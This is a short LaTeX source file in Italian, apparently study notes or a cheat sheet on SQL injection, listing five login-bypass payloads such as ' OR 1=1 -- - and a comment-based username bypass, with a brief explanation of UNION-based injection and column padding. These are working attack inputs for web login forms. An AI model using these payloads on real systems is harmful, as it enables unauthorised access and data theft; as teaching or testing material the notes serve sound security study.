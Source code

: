 \documentclass[oneside,a4paper,11pt]{book}
\theoremstyle{italicstyle}
\theoremstyle{normStyle}
\begin{document}
\begin{table}[h]
  \centering
  \caption{Payload per scoprire la vulnerabilità}
\end{table}

\section{Payload per il bypass}
\textbf{Importante} il trattino finale server ad indicare la presenza di uno spazio bianco dopo l'inserimento di un commento.
\begin{itemize}
    \item \begin{verbatim} ' OR 1 -- - \end{verbatim}
    \item \begin{verbatim} ' OR 1 = 1 -- - \end{verbatim}
    \item \begin{verbatim} ' OR '1' = '1'\end{verbatim}
    \item \begin{verbatim} '=0-- -\end{verbatim}
    \item \begin{verbatim} utente'-- - \end{verbatim} 
\end{itemize}
Nota: utente deve essere l'username di un utente del sistema. Se il form che vogliamo bypassare ci mostra errori di sintassi nella query SQL dobbiamo aggiustare il nostro codice in modo da risolvere questi errori.


\section{Union injection}
L'operatore UNION può lavorare solo con SELECT che ritornano lo stesso numero di colonne. Nel caso in cui la query eseguita dal sistema ritorni più colonne di quelle della quey che vogliamo eseguire noi in UNION dobbiamo inserire dei dati fantocci.
\end{document}
